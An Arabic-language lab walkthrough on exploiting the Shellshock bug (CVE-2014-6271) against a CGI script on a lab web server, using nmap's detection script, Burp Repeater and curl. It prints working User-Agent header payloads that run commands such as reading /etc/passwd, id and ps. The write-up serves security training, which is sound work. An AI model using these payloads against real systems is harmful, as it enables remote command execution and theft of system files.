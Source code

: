 راح نبداء باللاب الثالث الي هو 

Shellshock
------------|  


طبعا الـ شيل شوك كانت ثغره في احد الـ CMS وكان الـ CVE حقها سنة 2014  

طبعا ماعطانا التارقت ناخذ الايبي حقنا ونزيد عليه واحد لاننا نعرف انه هو التارقت  

ونفصحه ونشوف ان بورت 80 مفتوح وشغال عليه Apache  

طبعا نفتح الموقع نفسه ونشوف السورس كود  
[http://192.14.111.3]  

حصللنا طبعا سكربت يسوي Git على ملف Cgi طبعا هذا الاكستنشن مصاب بهذي الثغره  

راح نشيك عن طريق سكربت nmap
[nmap --script http-shellshock --script-args “http-shellshock.uri=/gettime.cgi”
192.14.111.3]  

طبعا لابد نعطيه مسار ملف الـ cgi الي حصلناه  

ونشوف انه قالنا انه فعلا مصاب بثغره الـ Shellshock  

طبعا نبحث الان عن الاكسبلويت راح نحصله هنا  
[Click here](https://github.com/opsxcq/exploit-CVE-2014-6271)  

طبعا راح نستغله يدوي عن طريق بروكسي او اداة اسمها Burpsuite  

وظيفتها نفس البروكسي تكون بينك وبين السيرفر ف راح يلقط اي ريكوست قبل يروح السيرفر  

طبعا بعد مانقرا الـ CVE نشوف انه فيه هيدر اسمه User-Agent: مصاب بثغرة command injection  

راح نفتح البرب سويت ونفتح البروكسي ونخليه intercept on  
طبعا الان نفتح ملف الـ cgi ونرجع للبرب سويت نحصله اعترض الطلب  
الان طبعا نرسله للريبيتر نضغط CTRL + R 
الان نحقن البايلود نفس الي بالـ CVE  

[User-Agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd']  

الان نسوي Send  

ونشوف انه فعلا قرا لنا ملف الـ /etc/passwd  

الان نقدر نلعب بالي بين الـ ''  
[User-Agent: () { :; }; echo; echo; /bin/bash -c 'id']  
[User-Agent: () { :; }; echo; echo; /bin/bash -c 'ps -ef']  


ونشوف انه جميع الاوامر اشتغلت الان نقدر ناخذ ريفيرس شيل باكثر من طريقة 


راح نجرب طريقة اخرى وهي عن طريق اداة curl  

[curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" \
http://192.14.111.3/gettime.cgi]  


ونشوف انه عطانا نفس النتيجة وقرا لنا ملف /etc/passwd  

---
